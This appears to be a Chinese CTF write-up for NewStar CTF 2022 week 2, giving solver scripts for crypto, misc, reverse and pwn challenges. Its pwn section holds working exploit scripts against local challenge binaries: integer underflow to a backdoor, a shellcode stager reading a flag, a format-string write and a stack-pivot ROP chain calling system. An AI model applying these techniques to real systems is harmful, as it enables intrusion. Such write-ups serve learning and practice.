Newstar Ctf 2022| week2 wp Newstar Ctf 2022第二周题目的wp。
Crypto unusual_base shuffle()函数是把数组中的元素按随机顺序重新排列。 随机排列后的alphabet给出了，那就直接根据encoded += alphabet[int(bits[i:i+6], 2)]逆向出来就行了。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 from Crypto.Util.number import *from random import shufflefrom string import ascii_lowercase, ascii_uppercase, digitsencoded = "GjN3G$B3de58ym&7wQh9dgVNGQhfG2hndsGjlOyEdaxRFY" alphabet = "c5PKAQmgI&qSdyDZYCbOV2seXGloLwtFW3f9n7j481UMHBp6vNETRJa$rxuz0hik" bits = '' for i in encoded: tmp = alphabet.find(i) print (tmp) bits += (bin (tmp)[2 :].rjust(6 ,'0' )) bits += '0000' flag = '' for i in range (0 , 280 , 8 ): tmp = int (bits[i:i + 8 ], 2 ) flag += (chr (tmp)) print (flag)
Affine 直接爆破吧
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 cipher = b"\xb1\x83\x82T\x10\x80\xc9O\x84\xc9<\x0f\xf2\x82\x9a\xc9\x9b8'\x9b<\xdb\x9b\x9b\x82\xc8\xe0V" for a in range (2 ** 8 ): for b in range (2 ** 8 ): if cipher[0 ] == (a * ord ('f' ) + b) % 0x100 : if cipher[1 ] == (a * ord ('l' ) + b) % 0x100 : if cipher[2 ] == (a * ord ('a' ) + b) % 0x100 : print (a, b) a = 163 b = 191 flag = '' for i in range (len (cipher)): for j in range (33 , 127 ): if (a * j + b) % 0x100 == cipher[i]: flag += chr (j) print (flag)
robot 直接复制加密函数爆破，但是有随机数生成。那就多爆破两次：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 from Crypto.Util.number import *from hashlib import sha256import randomfrom base64 import *res = ['252f10c83610ebca1a059c0bae8255eba2f95be4d1d7bcfa89d7248a82d9f111' , 1495846 , 1452754 , b'M4======' , '021fb596db81e6d02bf3d2586ee3981fe519f275c0ac9ca76bbcf2ebb4097d96' , '2e7d2c03a9507ae265ecf5b5356885a53393a2029d241394997265a1a25aefc6' , '4b227777d4dd1fc61c6f884f48641d02b4d121d3fd328cb08b5531fcacdabf8a' , b'Tg==' , '1b16b1df538ba12dc3f97edbb85caa7050d46c148134290feba80f8236c83db9' , b'52304539505430395054303D' , 'e3b98a4da31a127d4bde6e43033f66ba274cab0eb7eb1c70ec41402bf6273dd8' , b'58773D3D' , '3f39d5c348e5b79d06e842c114e6cc571583bbf44e4b0ebfda1a01ec05745d43' , '4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce' , '2e7d2c03a9507ae265ecf5b5356885a53393a2029d241394997265a1a25aefc6' , b'T0k9PT09PT0=' , '18f5384d58bcb1bba0bcd9e6a6781d1a6ac2cc280c330ecbab6cb7931b721552' , b'T0E9PT09PT0=' , 825026 , 'd2e2adf7177b7a8afddbc12d1634cf23ea1a71020f6a1308070a16400fb68fde' , 1455816 , b'4F553D3D3D3D3D3D' , 1165366 , 1242964 , b'4F493D3D3D3D3D3D' , 652094 , 597296 , '4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce' , '4b227777d4dd1fc61c6f884f48641d02b4d121d3fd328cb08b5531fcacdabf8a' , b'54314539505430395054303D' , 1242964 , 368664 , b'TVU9PT09PT0=' , b'cw==' , 1602214 ] def fun1 (x ): return sha256(x.encode()).hexdigest() def fun2 (x ): return pow (114514 ,ord (x),1919810 ) def fun3 (x ): key = random.randint(0 ,1145141919810 ) ans = x.encode() if key & 1 : ans = b32encode(ans) key >>= 1 if key & 1 : ans = b64encode(ans) key >>= 1 if key & 1 : ans = b16encode(ans) key >>= 1 return ans for count in range (5 ): flag = '' for i in range (len (res)): for j in range (33 , 127 ): x = chr (j) if res[i] == fun1(x) or res[i] == fun2(x): flag += x break for k in range (20 ): if res[i] == fun3(x): flag += x break print (flag)
ezPRNG 大佬讲的很清楚嘞：线性同余生成器
有一点需要注意的，如果modinv函数不能够正常返回，那么需要更换crack_unknown_multiplier中states的参数。大佬博客里面是(2,1,1,0)。我这里是(3,2,2,1)。
exp:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 from Crypto.Util.number import * from functools import reduce from functools import reduce from math import gcd from Crypto.Util.number import * def egcd(a, b): if a == 0: return (b, 0, 1) else: g, y, x = egcd(b % a, a) return (g, x - (b // a) * y, y) def modinv(a, m): g, x, y = egcd(a, m) if g != 1: raise Exception('modular inverse does not exist') else: return x % m def crack_unknown_increment(states, modulus, multiplier): increment = (states[1] - states[0]*multiplier) % modulus return modulus, multiplier, increment def crack_unknown_multiplier(states, modulus): multiplier = (states[3] - states[2]) * modinv(states[2] - states[1], modulus) % modulus return crack_unknown_increment(states, modulus, multiplier) def crack_unknown_modulus(states): diffs = [s1 - s0 for s0, s1 in zip(states, states[1:])] zeroes = [t2*t0 - t1*t1 for t0, t1, t2 in zip(diffs, diffs[1:], diffs[2:])] modulus = abs(reduce(gcd, zeroes)) print(modulus) return crack_unknown_multiplier(states, modulus) # N[i+1] = (A*N[i]+B) % M # A,B,N均未知 hints = [32579077549265101609729134002322479188058664203229584246639330306875565342934, 30627296760863751873213598737521260410801961411772904859782399797798775242121, 59045755507520598673072877669036271379314362490837080079400207813316110037822, 29714794521560972198312794885289362350476307292503308718904661896314434077717, 3378007627369454232183998646610752441039379051735310926898417029172995488622, 35893579613746468714922176435597562302206699188445795487657524606666534642489] print(len(hintsezPRNG)) sequence = hints modulus, multiplier, increment = crack_unknown_modulus(sequence) A = 6665518583654864024281280175260135044707462922029971254176205214742119570627 B = 70647661941803021648890247705354664245937054339520114852905142734885854842787 N = 121345174246418575181911383111384744844396268276674523949961216790284235179004 e = inverse(A, N) flag = ((hints[0] - B) * e) % N print(long_to_bytes(flag))
ezRabin 参考大佬的：Rabin密钥体制
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 import gmpy2 from Crypto.Util.number import * c= 59087040011818617875466940950576089096932769518087477304162753047334728508009365510335057824251636964132317478310267427589970177277870220660958570994888152191522928881774614096675980017700457666192609573774572571582962861504174396725705862549311100229145101667835438230371282904888448863223898642183925834109 p= 10522889477508921233145726452630168129218487981917965097647277937267556441871668611904567713868254050044587941828674788953975031679913879970887998582514571 q= 11287822338267163056031463255265099337492571870189068887689824393221951058498526362126606231275830844407608185240702408947800715624427717739233431252556379 n = p * q def attack(c): c1=pow(c,(p+1) // 4 , p) c2=pow(c,(q+1) // 4, q) cp1=p-c1 cp2=q-c2 t1=gmpy2.invert(p,q)#p的模q逆元 t2=gmpy2.invert(q,p)#q的模p逆元 m1=(q*c1*t2+p*c2*t1)%n m2=(q*c1*t2+p*cp2*t1)%n # or m2=n-m1 m3=(q*cp1*t2+p*c2*t1)%n m4=(q*cp1*t2+p*cp2*t1)%n # or m4=n-m3 m = [m1, m2, m3, m4] return m m = attack(c) for i in m: m_ = attack(i) for j in m_: print(long_to_bytes(j >> 300))
Misc Yesec no drumsticks 2 解密网站：零宽字节隐写
把文档输入decode框， Zero Width Characters for Steganography 选择默认如下：

得到：
1 86MygAZ2uJi2oCxctsd28LBNRXHPLykF5LBz8f1xEikWNVpKfpce2CMHvhSJUdk7CHLrEVhGRVQvMwT8r7JUgVWGbnzxb
这是base58。
1 2 3 flag = '666c61677b496e6772336431656e745f30465f59657365635f69355f4f4f4f4f4f7d' print (bytes .fromhex(flag))
Coldwinds’s Desktop montage拼图，gaps排序。每个文件大小30*30的。
1 2 3 4 5 6 7 8 montage *.PNG -tile 16x9 -geometry +0+0 montage.png sudo gaps --image=montage.png --generation=30 --population=144 --save
奇怪的二维码 这道题想了很久，过了两天才想起来咋做，网上搜下了阿兹台克码，果然是。
binwalk发现code.png内部还有个png，提取出来是帝国时代2中阿兹台克的介绍。于是搜索阿兹台克码 。
用ps补全。阿兹台克码解码地址
qsdz’s girlfriend 2 女朋友2这道题，仔细看里面的n,a,b。合在一起是arnold编码 提示找到脚本:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 import cv2import numpy as npdef arnold_decode (image, shuffle_times, a, b ): """ decode for rgb image that encoded by Arnold Args: image: rgb image encoded by Arnold shuffle_times: how many times to shuffle Returns: decode image """ decode_image = np.zeros(shape=image.shape,dtype=int ) h, w = image.shape[0 ], image.shape[1 ] N = h for time in range (shuffle_times): for ori_x in range (h): for ori_y in range (w): new_x = ((a * b + 1 ) * ori_x + (-b) * ori_y) % N new_y = ((-a) * ori_x + ori_y) % N decode_image[new_x, new_y, :] = image[ori_x, ori_y, :] return decode_image img = cv2.imread("1.png" ) a = 0x726e b = 0x6f6c64 st = 3 pic = arnold_decode(img,st,a,b) cv2.imwrite('i' + str (i) + '.png' ,pic)
奇怪的波形 这道题本来看不懂，但是出题人群里面提示了一下，秒懂。根据出题人意思，如果key[i] == 0，那么执行那么两个相邻的波峰形态都应该一样的，因为执行的代码相同。如果key[i] == 1，那么两个相邻波峰形态应该是不同的。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 for (i = 0; i < 16; i++) { tmp = S * S; S = tmp % N; if (key[i] == 1) { tmp = S * m; S = tmp % N; } else { tmp = S * S; S = tmp % N; } } return m, S; #flag{0010001001100111}

Pwn uint32 and ret 
利用nbytes-v2来溢出，v2是%u格式，也就是无符号十进制数。
1 2 3 4 5 6 7 8 9 10 11 12 from pwn import * #4294967224 p = process('./uint') p.recvuntil(b'success!') payload1 = str(4294967224).encode() p.sendline(payload1) backdoor = 0x4011B6 ret = 0x40101a payload2 = b'a' * 0x50 + b'b' * 0x8 + p64(ret) + p64(backdoor) p.sendline(payload2) p.interactive()
如果不加ret的话，应该会出现这种情况 。
shellcode-revenge 提示给的很好： 我要创造一个 read 字节数足够的世界

有两个输入，第一个输入只有0x1A个字符输入，构成不了可用的shellcode，输入地址是0x233000。所以，第一个read应该构造buf(0x233000)上面的shellcode，再实现一次read输入，这个用的长度比较短。第二个read构造栈溢出，使得return的地址执行0x233000上的shellcode。其他问题请看注释。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 from pwn import *context(os='linux' , arch='amd64' , log_level='debug' ) shellcode = shellcraft.read(0 , 0x233019 , 0x100 ) shellcode = asm(shellcode) + b'\x90\x90\x90\x90' code = shellcraft.open ("flag" ) code += shellcraft.read(3 , 0x233200 , 0x50 ) code += shellcraft.write(1 , 0x233200 , 0x50 ) code = asm(code) backdoor = 0x233000 p = process("./pwn" ) p.recvuntil(b'.' ) p.sendline(shellcode) p.recvuntil(b'~' ) payload = 0x30 * b'a' + 8 * b'b' + p64(backdoor) p.sendline(payload) p.recvuntil(b'!\n' ) p.sendline(code) p.interactive()
砍一刀 这道题真实复刻了砍某厂商优惠的过程，做起来是挺蛋疼的。格式化字符串漏洞，附上大佬师傅讲解的地址：CTF pwn题之格式化字符串漏洞详解 。里面的payload很有用。不过后面还有一道题，可以更细致的讲讲，这道题做起来确实太烦了，主要是文字太多，我的wsl并不能识别中文，所以推荐去虚拟机实现。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 from pwn import * context(os='linux', arch='amd64', log_level='debug') if __name__ == "__main__": p = process('./pwn') #game print(p.recvuntil(b'\n\n')) print(p.recvuntil(b'\n\n')) print(p.recvuntil(b'\n\n')) print(p.recvuntil(b'\n\n')) p.sendline(b'') print(p.recvuntil(b'\n\n')) print(p.recvuntil(b'\n\n')) print(p.recvuntil(b'\n\n')) print(p.recvuntil(b'\n\n')) print(p.recvuntil(b'\n\n')) print(p.recvuntil(b'\n\n')) print(p.recvuntil(b'\n\n')) p.sendline(b'') print(p.recvuntil(b'\n\n')) print(p.recvuntil(b'\n\n')) print(p.recvuntil(b'\n\n')) print(p.recvuntil(b'\n')) #cipher print(p.recvuntil(b'==>')) p.sendline(b'666') #game print(p.recvuntil(b'\n\n')) print(p.recvuntil(b'\n\n')) print(p.recvuntil(b'\n\n')) print(p.recvuntil(b'\n\n')) print(p.recvuntil(b'\n\n')) p.sendline(b'') print(p.recvuntil(b'\n\n')) #getcard print(p.recvuntil(b'\n')) print(p.recvuntil(b'\n')) print(p.recvuntil(b'\n')) print(p.recvuntil(b'\n')) print(p.recvuntil(b'\n')) print(p.recvuntil(b'\n')) print(p.recvuntil(b'\n\n')) while True: print(p.recvuntil(b'\n')) p.sendline(b'') print(p.recvuntil(b'!')) tmp = p.recvuntil(b'\n') if b'=' in tmp: break print(p.recvuntil(b'\n\n')) print(p.recvuntil(b'\n')) print(p.recvuntil(b'\n')) print("arrive getdiamond") #diamond print(p.recvuntil(b'\n')) print(p.recvuntil(b'\n')) print(p.recvuntil(b'\n')) print(p.recvuntil(b'\n\n')) while True: tmp = p.recvuntil(b'\n') if b'=' in tmp: print("sucess!") break p.sendline(b'') print(p.recvuntil(b'!')) tmp = p.recvuntil(b'\n') if b'=' in tmp: print(p.recvuntil(b"==>")) payload = fmtstr_payload(8, {0x404090:10}) p.sendline(payload) p.interactive()
buffer-fly 
buf并没有初始化，所以存在一些我们需要的值。

因为printf打印到\x0，所以可以尝试把这两个地址上面的值泄露出来。程序基地址是0x55555555528b - 0x128b。rbp存储的地址是0x7fffffffdf40 - 0x10。最后一个read只有0x40个字符输入所以直接system地址并不够用。那么只能尝试下栈迁移。上大佬得讲解：栈迁移浅析 ： 我们知道程序在结束的时候本身就会执行一次leave ret如果我们把ebp换成我们想迁移的地址，那么在执行leava ret的时候首先会mov esp ebp;这时的esp会指向当前栈的基地址，再执行pop ebp，如果之前我们通过栈溢出将ebp改成了我们想要迁移的地址即bss段，这时执行完pop ebp;之后就会使得ebp指向bss段的地址。 这道题我们不需要bss段也能完成。
原理是覆盖ebp指向图中rsp上一个的地址。也就是0x7fffffffdf40 - 0x38。然后经过返回地址leave和ret后，我们eip指向了途中rsp的地址，0x7fffffffdf10。如果这时，写入的值为pop_rdi_ret, 0x7fffffffdf40，system_addr，就可以执行0x7fffffffdf40上我们输入的值了。最后这道题还有个坑，不能直接输出cat flag，所以可以用sh flag或者cat flag >&2。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 from pwn import * context(os = 'linux', arch = 'amd64', log_level = 'debug') p = process('./buffer_fly') p.recvuntil(b"give me your name: ") p.send(b'a' * 0x18) p.recvuntil(b'a' * 0x18) program_leak = p.recvuntil(b'\n')[:-1] program_leak = u64(program_leak.ljust(8, b'\x00')) program_base = program_leak - 0x00128b print(hex(program_base)) pop_rdi_ret = program_base + 0x001423 system_addr = program_base + 0x0010E4 leave_ret = program_base + 0x001397 p.recvuntil("give me your age: ") p.send(b"a" * 0x20) p.recvuntil(b"a" * 0x20) stack_leak = p.recvuntil(b"\n")[:-1] stack_leak = u64(stack_leak.ljust(8, b'\x00')) print(hex(stack_leak)) p.recvuntil(b"you are a girl ?\nsusu give me your wechat number: ") cat_flag = b"sh flag" + b'\x00' payload = p64(pop_rdi_ret) + p64(stack_leak) + p64(system_addr) + p64(0) + p64(stack_leak - 0x38) + p64(leave_ret) + cat_flag p.send(payload) p.interactive()
Reverse 前可见古人，后得见来者 异或加凯撒：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 task = [0x51, 0x5B, 0x4C, 0x56, 0x59, 0x4D, 0x50, 0x56, 0x54, 0x43, 0x7D, 0x4C, 0x43, 0x53, 0x7D, 0x50, 0x43, 0x53, 0x7D, 0x47, 0x50, 0x7D, 0x4C, 0x43, 0x53, 0x7D, 0x4E, 0x40, 0x4A, 0x5F, 0x00] task = [i ^ 0x22 for i in task] flag = '' for i in task: if i < 65 or i > 90: if i >= 97 and i <= 122: flag += chr((i - 13 - 97) % 0x1A + 97) else: flag += chr(i) else: flag += chr((i - 13 -65) % 0x1A + 65) print(flag) #flag{begin_and_end_re_and_you}
FindME 这题是用angr直接秒的。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 #001D10 import angr import sys def Go(): path_to_binary = "task_time" project = angr.Project(path_to_binary, auto_load_libs=False) initial_state = project.factory.entry_state() simulation = project.factory.simgr(initial_state) #一般我会先查看程序起始地址，64位程序可能是0x400000，32位可能是0x800000 #print(project.entry) print_good_address = 0x401D10 simulation.explore(find=print_good_address) if simulation.found: solution_state = simulation.found[0] solution = solution_state.posix.dumps(sys.stdin.fileno()) # 大概意思是dump出输入 print(solution) else: raise Exception('Could not find the solution') if __name__ == "__main__": Go() #path_to_binary = "oruga" #project = angr.Project(path_to_binary, auto_load_libs=False) #print(project.entry) #b'flag{D0nt_let_time_bo_so_cheap!}
Petals 
这个地方有个花指令。在013B0处按u，然后ctrl+n。回到loc_1209按p。就可以F5了。然后直接逆就行。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 cipher = [0xD0, 0xD0, 0x85, 0x85, 0x80, 0x80, 0xC5, 0x8A, 0x93, 0x89, 0x92, 0x8F, 0x87, 0x88, 0x9F, 0x8F, 0xC5, 0x84, 0xD6, 0xD1, 0xD2, 0x82, 0xD3, 0xDE, 0x87] v5 = [~(i ^ 25) & 0xff for i in range(256)] print(v5) flag = '' for i in range(len(cipher)): for j in range(33, 127): tmp = chr(j) if v5[j] == cipher[i]: print(f"i : %d - %c" %(i,tmp)) flag += tmp print(len(flag)) print(flag) import hashlib md5 = hashlib.md5() md5.update(flag.encode()) print(md5.hexdigest())
ur_so_naive exciting!

首先找到Activity。这里有疑似最后的加密结果this.o。还有个loadLibrary，那么从Libraries里面取出来libencry.so。

加密函数：

在原来的activity里面找到x1.a，打开，就可以看到逻辑了：


接着就是直接解了：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 final = [-36, 83, 22, -117, -103, -14, 8, 19, -47, 0x2F, -110, 71, 2, -21, -52, -36, 24, -121, 87, -114, -121, 27, -113, -86] v7 = list(b'FALL') def ROR(byte_, num): tmp = (byte_ >> num) | (byte_ << (8 - num)) & 0xff return tmp def ROL(byte_, num): tmp = (byte_ << num & 0xff) | (byte_ >> (8 - num)) return tmp def test(a, c): v9 = ROR(a, 1) v10 = ROL((v7[0] ^ v9) & 0xff, 6) v11 = ROL((v7[1] ^ v10) & 0xff , 5) v12 = ROL((v7[2] ^ v11) & 0xff, 4) v13 = (v12 ^ v7[3]) & 0xff return v13 ^ c flag = [ord('f')] for i in range(len(final)): for j in range(33, 127): if test(flag[i], j) == final[i] % 256: flag.append(j) break print(bytes(flag)) #b'flag{n@1ve_luv_2you#ouo}'
Likemyasp 这道题有个相似的脱壳介绍：x64dbg手脱壳
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 cipher = [0x98, 0xC0, 0x1F, 0x3C, 0x80, 0x0D, 0x00, 0x00, 0x97, 0xC0, 0x0B, 0x36, 0x20, 0x0E, 0x00, 0x00, 0xA0, 0x00, 0x1C, 0x2A, 0xE0, 0x0F, 0x00, 0x00, 0xCB, 0x40, 0x10, 0x12, 0xA0, 0x0F, 0x00, 0x00, 0x92, 0x40, 0x10, 0x32, 0x20, 0x0F, 0x00, 0x00, 0x82, 0x40, 0x88, 0x15, 0x60, 0x0D] tt = [0x0D803C1FC098, 0x0E20360BC097, 0x0FE02A1C00A0, 0x0FA0121040CB, 0x0F2032104092, 0x0D6015884082] flag = '' for i in tt: d = ~(i & 0xff) c = ((i >> 14) & 0xff) ^ 0x1E b = ((i >> 23) & 0xff) ^ 0x14 a = ((i >> 37) & 0xff) ^ 0xA #print(a , b, c, d % 256) flag += (chr(a) + chr(b) + chr(c) + chr(d % 256)) print(flag) 